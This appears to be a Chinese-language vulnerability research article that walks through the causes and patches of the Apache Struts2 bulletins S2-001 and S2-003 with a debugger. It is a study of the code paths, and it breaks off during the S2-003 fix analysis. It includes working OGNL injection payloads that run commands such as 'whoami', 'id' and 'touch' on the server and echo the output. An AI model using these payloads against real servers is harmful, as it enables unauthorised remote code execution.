# struts2历史漏洞回顾与分析

## 目录

- [前言](#preface)
- [S2-001](#s2-001)
- [S2-003](#s2-003)
- [S2-005](#s2-005)
- [S2-007](#s2-007)
- [S2-008](#s2-008)
- [S2-009](#s2-009)
- [S2-012](#s2-012)
- [S2-013](#s2-013)
- [S2-015](#s2-015)
- [S2-016](#s2-016)
- [S2-032](#s2-032)
- [S2-045](#s2-045)
- [S2-052](#s2-052)
- [S2-053](#s2-053)
- [S2-057](#s2-057)
- [S2-059](#s2-059)
- [S2-061](#s2-061)

<a name="preface"></a>
## 前言

尽管现在struts2用的越来越少了，但对于漏洞研究人员来说，感兴趣的是漏洞的成因和漏洞的修复方式，因此还是有很大的学习价值的。毕竟Struts2作为一个很经典的MVC框架，无论对涉及到的框架知识，还是对过去多年出现的高危漏洞的原理进行学习，都会对之后学习和审计其他同类框架很有帮助。

<a name="s2-001"></a>
## S2-001

官方漏洞公告：<br>
https://cwiki.apache.org/confluence/display/WW/S2-001

影响版本：`Struts 2.0.0 - Struts 2.0.8`

## 漏洞复现和分析

根据漏洞描述，可知struts2中有个名为`altSyntax`的特性，该特性允许在表单中提交包含`OGNL`表达式的字符串(一般是通过文本字段，即struts2的`<s:textfile>`标签)，且可对包含OGNL的表达式进行递归计算。

漏洞复现环境使用的是docker镜像：`medicean/vulapps:s_struts2_s2-001`

这里先使用最简单的`PoC`进行调试：`%{2+5}`



Submit提交后，OGNL表达式返回结果并填充在`textfield`文本框中：


下面就来调试分析一下。<br>
由于漏洞是在struts2对文本标签`<s:textfield>`处理的过程中触发的，所以先找到相对应的处理类。在IDEA里，对着`<s:textfield>`处点击便可定位到文件`struts-tags.tld`，其中可看到该标签相关的一些属性定义，包括该标签的对应的处理类为：`org.apache.struts2.views.jsp.ui.TextFieldTag`。



在该类中搜索处理开始标签和结束标签的方法，发现其使用的是父类`ComponentTagSupport`的处理方法：`doStarTag`和`doEndTag`。



在这两个方法中下断点。经调试发现，触发漏洞是在`doEndTag`方法中。因此，当当前标签时`TextField`类型时，单步跟进调试。


调试进入`UIBean#evaluateParams()`方法中，当请求的参数中`value`为null时，则会根据`name`属性的值去获取对应的`value`属性的值。且`altSyntax`特性默认是开启的(该属性设置在struts2的文件`default.properties`中)，所以这里会用`OGNL`表达式的标识符`%{}`把`name`属性的值包住，比如当前表单的用户名文本输入框中，`name`属性的值为`username`，则加了`OGNL`表达式标识符后变为：`%{username}`，如下图：



继续跟进`findValue()`方法，后面会进入到`TextParserUtil#translateVariables()`方法中，如下图：


在`TextParserUtil#translateVariables()`方法中，有一个`while(true)`循环，这里会调用`OgnlValueStack#findValue()`方法来计算`OGNL`表达式(其实底层调用的还是`OGNL`的API)计算。<br>
计算`%{username}`，截取`%{}`里面的内容`username`，会从值栈ValueStack的`Root`对象中获取key为`username`的值，即`%{2+5}`。由于获取到的值`%{2+5}`仍然是一个`OGNL`表达式，故会再次进行计算，此时便是计算`2+5`得到值`7`。

>PS：本文不会详细讨论struts2的ValueStack、OGNL等知识点。
>想了解的朋友可参考陆舟的《Struts2技术内幕》一书中的第6章, 以及第8章的8.2小节。

到此，漏洞原理的部分已经分析完了。

由于比较好奇这里为什么表单文本框的内容提交后`OGNL`表达式的计算结果会以替换文本输入框内容的方式进行回显。于是便进一步调试。
发现在`UIBean#evaluateParams()`计算完成后，会进入`UIBean#mergeTemplate()`方法构造一个页面返回到客户端。跟进该方法，如下图：



可看到该方法中使用了模板引擎Freemarker进行页面的构造，这里主要先针对用户名的文本框进行构造，所需参数由`getParameters()`方法返回，返回的值里就包含了上面OGNL表达式`%{2+5}`的计算结果`7`，保存在`key`为`nameValue`的值中。<br>
再来看看此时使用的模板`template`参数的值`/template/xhtml/text`，最后定位到具体的模板文件`/template/simple/text.ftl`，内容如下图：


这就一目了然了：这里会判断参数`parameters`中的`nameValue`的值是否存在，存在的话便填充到该文本输入框的`value`属性中。

### 可回显PoC

这里使用OGNL上下文对象`context`去获取`HttpServletResponse`对象，如下图：



于是有：
```java
%{#p=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).start(),
#is=#p.getInputStream(),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)),
#arr=new char[50000],
#br.read(#arr),
#str=new java.lang.String(#arr),
#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#writer.println(#str),
#writer.flush(),
#writer.close()}
```



## 漏洞修复

在struts2 `2.0.9`版本中，依赖的XWork的版本为`2.0.4`，在该版本中，`com.opensymphony.xwork2.util.TextParseUtil#translateVariables()` 判断循环的次数，如果超过`1`次，就退出`while(true)`循环体，从而避免`OGNL`表达式的递归执行，如下图所示。



换言之，在处理完`%{username}`后，就不能对获取到的值再进行OGNL表达式计算了。

<a name="s2-003"></a>
## S2-003

官方漏洞公告：<br>
https://cwiki.apache.org/confluence/display/WW/S2-003

影响版本：`Struts 2.0.0 - Struts 2.0.11.2`

## 漏洞复现与分析

如公告所述，该漏洞存在于Struts2默认的一个拦截器`ParametersInterceptor`。该过滤器在处理请求参数时，为了防止外界输入通过OGNL表达式来操作OGNL上下文对象`context`，对字符`#`进行了安全过滤。但由于OGNL可以识别unicode编码，故可将字符`#`进行unicode编码(即`\u0023`)后进行绕过。

下面来实际调试一下。

漏洞复现环境依旧使用`struts-2.0.11.2/apps/struts2-blank-2.0.11.2.war`。

客户端发送请求后，在`ParametersInterceptor#doIntercept()`方法里断下，然后会先调用`OgnlContextState.setDenyMethodExecution(contextMap, true)`方法来设置不允许OGNL表达式调用方法。然后调用`ParametersInterceptor#setParameters()`方法对请求参数进行处理。如下图：

>关于`OgnlContextState.setDenyMethodExecution(contextMap, true)`控制不允许OGNL表达式调用方法的实现原理，简单说一下：其实就是在OGNL上下文对象`context`内设置一个标志位，`key`为`XWorkMethodAccessor`的字符串常量`DENY_METHOD_EXECUTION`，值为`true`。当OGNL表达式里有方法调用时，OGNL的底层实现会调用`XWorkMethodAccessor#callMethod()`方法，里面会判断上下文对象`context`中`DENY_METHOD_EXECUTION`对应的值，如果是`true`，则不会执行方法，反之则执行方法。
>
>关于OGNL中`MethodAccessor`的知识点这里不详细讨论，请参考陆舟的《Struts2技术内幕》一书中第6章的6.3小节。



继续跟进`ParametersInterceptor#setParameters()`方法，里面会调用`ParametersInterceptor#acceptableName()`对参数名进行安全校验，即是否包含特殊字符`=,#:`。如果没有包含指定字符，则继续执行，会调用`OgnlValueStack#setValue()`对参数名进行OGNL表达式计算。




继续跟进，会调用`OgnlUtil#compile()`方法，当首次请求时，`expressions`这个`HashMap`集合中没有以当前表达式作为`key`的`value`，所以会调用`Ognl#parseExpression()`解析当前表达式，而解析后的结果存放到`expressions`这个`HashMap`集合中。



而`Ognl#parseExpression()`的解析过程中，后面会调用`JavaCharStream#readChar()`，该方法中，会对unicode编码转化为ASCII码字符。比如`\u0023`会转化为`#`。如下图：



综上，我们就可以将OGNL表达式中的特殊符号`=,#:`进行unicode编码后再发送，便可绕过`acceptableName()`方法的过滤。另外，再利用OGNL表达式的`Expression Evaluation`特性来编写PoC。
>说到OGNL的`Expression Evaluation`特性，它支持`(expr)`、`(expr1)(expr2)`或`(expr1)(expr2)(expr3)`这样的写法。<br>
>但遗憾的是，[官方文档](http://commons.apache.org/proper/commons-ognl/language-guide.html)对`Expression Evaluation`的用法解释得让人看不懂，因为它的字面意思跟这个漏洞公开的PoC的编写逻辑个人感觉对不上。<br>
另外，网上关于Struts2 RCE漏洞的分析文章大多数都没有对`(expr1)(expr2)`OGNL表达式求值背后的计算逻辑进行说明，少数有说到这个的却没有说明白。<br>
>我在调试这个漏洞的时候花了不少时间在`Ognl#setValue()`方法的底层实现上，想搞清楚它背后的运算逻辑，比如该漏洞的PoC为什么用`(java_code)(fuck)(fuck)`可以成功执行Java代码，而`(fuck)(fuck)(java_code)`这种调换了一下位置就不行？<br>
但调试的过程发现，其底层实现比较复杂，涉及到将字符串转换为Ognl底层的AST语法树，然后括号`()`中不同形式的表达式，OGNL底层会使用不同类型的`AST Node`类去表示，如果某个`AST Node`还是一个AST语法树的话，又继续解析。且不同类型的`AST Node`，其行为是不同的，比如有的方法用的父类`SimpleNode`的方法，有的是重写了自己的方法，而这些不同可能会决定了`()`表达式顺序如何摆放
才能成功执行Java代码。<br>
>另外，在调试过程中发现OGNL的代码里有用的注释很少...<br>
>所以到最后我都没办法用言语来描述它的运算规则。因此，我只能用一种笨办法来获得结论，就是用不同形式的求值表达式去做测试，看哪种形式可以成功执行Java代码，测试结果如下：<br>
>
>OGNL表达式求值(Expression Expression)：<br>
>1、如果是调用的`OgnlUtil.getValue()`方法，则以下表达式可以执行java代码：<br>
>- (java code)             
>- (java code)(fuck)
>- (fuck)(java code)
>- (java code)(fuck)(fuck)
>- (fuck)(java code)(fuck)
>
>2、如果是调用的OgnlUtil.setValue()方法，则以下表达式可以执行java代码：<br>
>- (java code)(fuck)
>- (fuck)(java code)
>- (java code)(fuck)(fuck)
>- (fuck)(java code)(fuck)

因为这个该漏洞时由`OgnlUtil.setValue()`方法去触发的，所以综上，可简单执行命令的PoC如下：
```
/xxx.action?
(a)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(b)(%5cu0040java.lang.Runtime%5cu0040getRuntime().exec(%22touch%20/tmp/success2%22))
```

### 可回显PoC

与`S2-001`回显PoC同理，也是通过从上下文对象`context`获取`com.opensymphony.xwork2.dispatcher.HttpServletResponse`对象来实现，如下：
```
/xxx.action?
(a)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)(bla)
&(b)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))(bla)
&(c)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))(bla)
&(d)(%5cu0023res%5cu003dnew%5cu0020char[20000])(bla)
&(e)(%5cu0023dis.read(%5cu0023res))(bla)
&(f)(%5cu0023writer%5cu003d%5cu0023context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter())(bla)
&(g)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))(bla)
&(h)(%5cu0023writer.flush())(bla)
&(i)(%5cu0023writer.close())(bla)
```


当然，这里用两个括号的形式也是可以的，但是无论用哪种，Java代码一定要放在第二个括号里，第一个括号里的用来决定表达式的执行顺序。因为在`ParametersInterceptor#setParameters()`方法中会把所有的url请求参数放在一个`TreeMap`里,且作为`key`进行存放。而`TreeMap`默认是会按照`key`进行字典排序的。所以如果要让PoC里所有的表达式都按照指定的先后顺序执行的话，必须使用第一个括号进行排序。比如上面回显PoC里第一个表达式先后依次就是`(a)`->`(b)`->`(c)`->`(d)`->`(e)`->`(f)`->`(g)`->`(h)`->`(i)`。

>注意：这个PoC在有的高版本的Tomcat会报400错误，提示`java.lang.IllegalArgumentException: Invalid character found in the request target. The valid characters are defined in RFC 7230 and RFC 3986`，这是因为高版本的Tomcat按照RFC规定实现，不允许URL中出现中括号`[]`，这时只需将URL里的中括号`[]`进行url编码即可。

## 漏洞修复

Struts2 `2.0.12`版本，依赖的XWork版本是`2.0.6`。通过比对XWork`2.0.6`和`2.0.5`版本的源码的不同，发现在类`OgnlValueStack`中使用了`SecurityMemberAccess`去替代`StaticMemberAccess`。



类`OgnlValueStack`还因实现了新接口`MemberAccessValueStack`而实现了其两个方法：



而这两个方法在`ParametersInterceptor#setParameters()`方法中被调用：



**那么`SecurityMemberAccess`这个类是如何起到防护作用的呢？**<br>
跟踪代码到最后OGNL表达式中如果有Java方法被调用的话，最终会调用`OgnlRuntime#callAppropriateMethod()`方法，里面有个`isMethodAccessible()`方法的判断：


从上图代码可知，`isMethodAccessible()`方法一定要返回`true`，才能继续往下走从而通过反射调用我们的Java方法，否则抛异常`NoSuchMethodException`。

继续跟进`isMethodAccessible()`，发现最终会调用`SecurityMemberAccess#isAcceptableProperty()`方法进行判断, 该方法要返回`true`才可以, 其实现如下:





很明显，需要`isAccepted()`返回`true`并且`isExcluded(name)`返回`false`才行。

而`isAccepted()`和`isExcluded()`的返回值取决于`SecurityMemberAccess`的两个属性：`acceptProperties`和`excludeProperties`。这两个属性的赋值前面提到，是在`ParametersInterceptor#setParameters()`方法中，其对应的值是`ParametersInterceptor`的两个属性`acceptParams`和`excludeParams`。通过阅读代码可知，`acceptParams`是一个空的集合，而`excludeParams`这个集合由于interceptor的配置文件中`ParametersInterceptor`的配置了该属性的初始值所以并不是空集合。其实这两个属性的值也可以通过调试可知。

